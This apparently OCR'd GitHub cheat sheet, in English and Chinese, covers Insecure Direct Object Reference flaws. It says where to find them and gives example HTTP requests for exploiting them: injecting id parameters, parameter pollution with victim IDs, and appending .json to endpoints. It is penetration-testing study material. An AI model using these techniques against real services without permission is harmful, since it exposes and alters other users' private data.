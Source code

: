 ## Insecure Direct Object Reference (IDOR)

### Introduction

> IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

### Where to find

*   Usually it can be found in APIs.
*   Check the HTTP request that contain unique ID, for example `user_id` or `id`
*   两个账号，修改id查看信息
*   id等表示可以从注册，密码找回，用户信息等地方寻找
*   修改账号信息时查看数据包，修改用户id等参数进行遍历
*   登录时查看有没有返回账号密码等信息的接口，修改接口id
*   ~~有时候替换cookie也会有越权漏洞~~

### How to exploit

1.  Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /api/v1/getuser?id=1234 HTTP/1
Host: example.com
...
```

2.  HTTP Parameter pollution

```
POST /api/get_profile HTTP/1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3.  Add .json to the endpoint

```
GET /v2/GetData/1234 HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /v2/GetData/1234.json HTTP/1
Host: example.com
...
```
